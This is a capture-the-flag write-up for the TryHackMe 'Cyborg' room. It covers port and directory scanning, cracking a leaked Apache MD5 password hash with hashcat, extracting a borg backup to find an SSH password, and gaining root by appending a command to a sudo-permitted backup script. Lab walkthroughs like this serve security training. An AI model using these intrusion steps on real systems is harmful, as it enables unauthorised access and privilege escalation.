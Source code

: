 # THM | Cyborg

A box involving encrypted archives, source code analysis and more.

![image-20210125203617103](Untitled.assets/image-20210125203617103.png)

------
[Room link](https://tryhackme.com/room/cyborgt8)



### Namp scan :

```sh
└──╼ $nmap -vv -A <machine-ip>
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-25 17:20 +01
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
Initiating Ping Scan at 17:20
Scanning 10.10.222.225 [2 ports]
Completed Ping Scan at 17:20, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:20
Completed Parallel DNS resolution of 1 host. at 17:20, 0.07s elapsed
Initiating Connect Scan at 17:20
Scanning 10.10.222.225 [1000 ports]
Discovered open port 80/tcp on 10.10.222.225
Discovered open port 22/tcp on 10.10.222.225
Completed Connect Scan at 17:20, 18.36s elapsed (1000 total ports)
Initiating Service scan at 17:20
Scanning 2 services on 10.10.222.225
Completed Service scan at 17:20, 6.57s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.222.225.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:21, 8.70s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 1.07s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
Nmap scan report for 10.10.222.225
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-01-25 17:20:29 +01 for 35s
Not shown: 995 closed ports
Reason: 995 conn-refused
PORT      STATE    SERVICE   REASON      VERSION
22/tcp    open     ssh       syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp    open     http      syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
1500/tcp  filtered vlsi-lm   no-response
3006/tcp  filtered deslogind no-response
16016/tcp filtered unknown   no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.51 seconds
```

1. Scan the machine, how many ports are open?                            

​	response : 2

2. What service is running on port 22?

​	response : ssh

3. What service is running on port 80?

​	response : http

### Dirsearch :

```sh
└──╼ $dirsearch -u <machine-ip> -e *

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: GET | Threads: 20 | Wordlist size: 7140

Error Log: /home/itatshi/Desktop/tools/dirsearch/logs/errors-21-01-25_17-20-59.log

Target: http://10.10.222.225/

Output File: /home/itatshi/Desktop/tools/dirsearch/reports/10.10.222.225/_21-01-25_17-21-00.txt

[17:21:00] Starting: 
[17:21:08] 403 -  278B  - /.htaccess.bak1
[17:21:08] 403 -  278B  - /.htaccess.orig
[17:21:08] 403 -  278B  - /.htaccess.save
[17:21:08] 403 -  278B  - /.htaccess.sample
[17:21:08] 403 -  278B  - /.htaccessBAK
[17:21:09] 403 -  278B  - /.html
[17:21:09] 403 -  278B  - /.htm
[17:21:09] 403 -  278B  - /.htaccessOLD
[17:21:09] 403 -  278B  - /.htaccessOLD2
[17:21:09] 403 -  278B  - /.httr-oauth
[17:21:32] 301 -  314B  - /admin  ->  http://10.10.222.225/admin/
[17:21:33] 200 -    6KB - /admin/
[17:21:33] 200 -    6KB - /admin/?/login
[17:21:33] 403 -  278B  - /admin/.htaccess
[17:21:35] 200 -    6KB - /admin/index.html
[17:21:59] 301 -  312B  - /etc  ->  http://10.10.222.225/etc/
[17:22:06] 200 -   11KB - /index.html
[17:22:29] 403 -  278B  - /server-status
[17:22:29] 403 -  278B  - /server-status/
```

Browse to <machine-ip>/etc/ . you'll see :

![image-20210125205337915](Untitled.assets/image-20210125205337915.png)

go to squid/passwd .

create a file hash.txt and past the passwd hash inside it . then crack it using hashcat or john .

```sh
└──╼ $cat hash.txt 
$apr1$BpZ.Q.1m$F0****************QTTn.
└──╼ $hashcat -m 1600 hash.txt /opt/seclists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-8250U CPU @ 1.60GHz, 5708/5772 MB (2048 MB allocatable), 8MCU

```

we will need that password later .

Browse to http://<machine-ip>/admin/ 

![image-20210125204342279](Untitled.assets/image-20210125204342279.png)

go to Archive>>Download and download the tar file .

extract it and browse it 

after reading the README file , you'll know that you have to install borg .

#### Install borg 

```sh
wget https://github.com/borgbackup/borg/releases/download/1.1.15/borg-linux64
sudo cp borg-linux64 /usr/local/bin/borg
sudo chown root:root /usr/local/bin/borg
sudo chmod 755 /usr/local/bin/borg
```

let's now extract the archive_music using borg .

```sh
└──╼ $borg list final_archive/
Enter passphrase for key /home/itatshi/Desktop/THM/cyborg/final_archive: 
music_archive                        Tue, 2020-12-29 15:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
┌─[✗]─[itatshi@parrot]─[~/Desktop/THM/cyborg]
└──╼ $borg extract ./final_archive::music_archive
Enter passphrase for key /home/itatshi/Desktop/THM/cyborg/final_archive: 

```

we successfully extract it . let's go to home/alex/Documents

```sh
┌─[itatshi@parrot]─[~/Desktop/THM/cyborg/home/alex/Documents]
└──╼ $cat note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3******3

```

we found alex password . let's ssh it now :

```sh
└──╼ $ssh alex@<machine-ip>
alex@10.10.175.120's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


27 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

alex@ubuntu:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
alex@ubuntu:~$ cat user.txt 

```

Boom , we got the user flag .

let's get the root flag now .

### Privilege Escalation :

```sh
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
alex@ubuntu:~$ id
uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

```

we can run /etc/mp3backups/backup.sh as root :

let's use it to get the root flag .

```sh
cd /etc/mp3backups
chmod 777 backup.sh
echo "cat /root/root.txt > backed_up_files.txt" >> backup.sh
sudo ./backup.sh

```

let's now read the flag .

```sh
alex@ubuntu:/etc/mp3backups$ cat backed_up_files.txt 
flag{Th**************************053d}
alex@ubuntu:/etc/mp3backups$ 
```

Great , we found the root flag .

![image-20210125203205943](Untitled.assets/image-20210125203205943.png)

Happy Hacking.
